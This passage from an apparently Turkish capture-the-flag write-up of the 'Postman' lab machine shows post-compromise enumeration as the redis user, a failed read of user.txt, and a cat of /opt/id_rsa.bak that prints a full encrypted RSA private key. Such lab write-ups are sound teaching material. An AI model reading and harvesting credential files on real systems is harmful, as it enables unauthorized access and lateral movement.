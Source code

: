 ```sh
Last login: Mon Aug 26 03:04:25 2019 from 10.10.10.1
redis@Postman:~$ 
```

shell'i aldıktan sonra içerideki user.txt dosyamızı okuyup okuyamadığımızı kontrol etmek amacıyla ; 
```sh
redis@Postman:/home/Matt$ ls -la 
total 52
drwxr-xr-x 6 Matt Matt 4096 Sep 11 11:28 .
drwxr-xr-x 3 root root 4096 Sep 11 11:27 ..
-rw------- 1 Matt Matt 1676 Sep 11 11:46 .bash_history
-rw-r--r-- 1 Matt Matt  220 Aug 25 15:10 .bash_logout
-rw-r--r-- 1 Matt Matt 3771 Aug 25 15:10 .bashrc
drwx------ 2 Matt Matt 4096 Aug 25 18:20 .cache
drwx------ 3 Matt Matt 4096 Aug 25 23:23 .gnupg
drwxrwxr-x 3 Matt Matt 4096 Aug 25 23:29 .local
-rw-r--r-- 1 Matt Matt  807 Aug 25 15:10 .profile
-rw-rw-r-- 1 Matt Matt   66 Aug 26 00:48 .selected_editor
drwx------ 2 Matt Matt 4096 Aug 26 00:04 .ssh
-rw-rw---- 1 Matt Matt   33 Aug 26 03:07 user.txt
-rw-rw-r-- 1 Matt Matt  181 Aug 25 18:22 .wget-hsts
redis@Postman:/home/Matt$ cat user.txt
cat: user.txt: Permission denied
```
İlgili kullanıcıya sahip olamamız sebebiyle user.txt dosyasını okuyamadık , bu aşamada sistem içerisindeki dizinler gezilirken /opt dizini içerisindeki dosya dikkat çekiyor ; 
```sh
redis@Postman:/opt$ ls
id_rsa.bak
redis@Postman:/opt$ ls -la 
total 12
drwxr-xr-x  2 root root 4096 Sep 11 11:28 .
drwxr-xr-x 22 root root 4096 Aug 25 15:03 ..
-rwxr-xr-x  1 Matt Matt 1743 Aug 26 00:11 id_rsa.bak
redis@Postman:/opt$ cat id_rsa.bak 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
```
